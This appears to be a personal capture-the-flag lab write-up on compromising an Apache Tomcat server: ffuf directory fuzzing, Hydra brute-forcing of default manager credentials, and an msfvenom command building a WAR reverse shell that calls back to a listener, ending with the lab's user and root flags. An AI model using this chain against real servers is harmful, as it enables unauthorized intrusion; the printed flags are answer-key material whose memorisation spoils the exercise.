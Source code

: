 #Windows 

![[Pasted image 20240604105827.png]]

![[Pasted image 20240604105904.png]]


==`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://10.10.10.95:8080/FUZZ`==

![[Pasted image 20240604111729.png]]


![[Pasted image 20240604115320.png]]

Default creds does get us into the Server Status page but nothing else

**admin : admin**


***
**Burp**

![[Pasted image 20240604115431.png]]

Send to Decoder - Base64

![[Pasted image 20240604115512.png]]


We can brute-force this with Hydra

==`/usr/share/wordlists/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt`==
![[Pasted image 20240604120018.png]]




==`hydra -C <colon_separated_cred_file> http-get://10.10.10.95:8080/manager/html`==

![[Pasted image 20240604120445.png]]


**tomcat : s3cret**

![[Pasted image 20240604120915.png]]


***

![[Pasted image 20240604120938.png]]

**Upload Malicious War**
Packaged Java file
HackTricks
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat

==`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.10 LPORT=5555 -f war -o revshell.war`==


![[Pasted image 20240604121538.png]]

![[Pasted image 20240604121609.png]]

Set Up NC listener and navigate to `/revshell`
![[Pasted image 20240604121839.png]]

![[Pasted image 20240604121918.png]]


![[Pasted image 20240604121932.png]]

![[Pasted image 20240604122152.png]]

user.txt : 7004dbcef0f854e0fb401875f26ebd00
root.txt : 04a8b36e1545a455393d067e772fe90e

***
***

